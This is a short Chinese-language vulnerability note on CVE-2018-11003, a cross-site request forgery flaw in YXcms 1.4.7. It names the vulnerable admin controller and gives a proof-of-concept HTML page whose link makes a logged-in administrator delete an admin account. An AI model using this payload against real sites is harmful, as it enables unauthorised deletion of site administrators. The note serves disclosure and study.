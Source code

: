 ```yaml
---
title: （CVE-2018-11003）YXcms 1.4.7跨站请求伪造漏洞
id: zhfly3301
---
```


# （CVE-2018-11003）YXcms 1.4.7 跨站请求伪造漏洞

## 一、漏洞简介

YXcms 1.4.7版本中的protected/apps/admin/controller/adminController.php文件存在跨站请求伪造漏洞。远程攻击者可借助index.php?r=admin/admin/admindel利用该漏洞删除管理员账户。

## 二、漏洞影响

YXcms 1.4.7

## 三、复现过程

POC:

管理员点击链接

http://192.168.232.133/evil.html

evil.html

```
<html> 
<a href="http://127.0.0.1/yxcms1.4.7/index.php?r=admin/admin/admindel&id=1">test</a>
</html> 
```
